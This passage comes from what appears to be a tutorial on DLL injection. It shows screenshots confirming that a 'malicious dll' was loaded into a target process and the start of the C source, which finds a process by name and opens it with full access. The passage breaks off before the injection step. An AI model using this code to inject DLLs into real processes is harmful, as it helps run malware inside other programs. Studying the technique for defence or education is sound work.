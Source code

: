 ![](/posts/dllinjection/loading_written_dll.gif)   

We once again see within Process Hacker that indeed our malicious dll has been loaded:  

![](/posts/dllinjection/dllinjection11.png)   

Overall, the whole code is:  
```c
#include <Windows.h>
#include <stdio.h>
#include <tlhelp32.h>

BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {

	// According to the documentation:
	// Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32).
	// If dwSize is not initialized, Process32First fails.
	PROCESSENTRY32	Proc = {
		.dwSize = sizeof(PROCESSENTRY32)
	};

	HANDLE hSnapShot = NULL;

	// Takes a snapshot of the currently running processes 
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first process encountered in the snapshot.
	if (!Process32First(hSnapShot, &Proc)) {
		printf("[!] Process32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {

		WCHAR LowerName[MAX_PATH * 2];

		if (Proc.szExeFile) {
			DWORD	dwSize = lstrlenW(Proc.szExeFile);
			DWORD   i = 0;

			RtlSecureZeroMemory(LowerName, sizeof(LowerName));

			// Converting each character in Proc.szExeFile to a lower case character
			// and saving it in LowerName
			if (dwSize < MAX_PATH * 2) {

				for (; i < dwSize; i++)
					LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);

				LowerName[i++] = '\0';
			}
		}

		// If the lowercase'd process name matches the process we're looking for
		if (wcscmp(LowerName, szProcessName) == 0) {
			// Save the PID
			*dwProcessId = Proc.th32ProcessID;
			// Open a handle to the process
			*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
			if (*hProcess == NULL)
```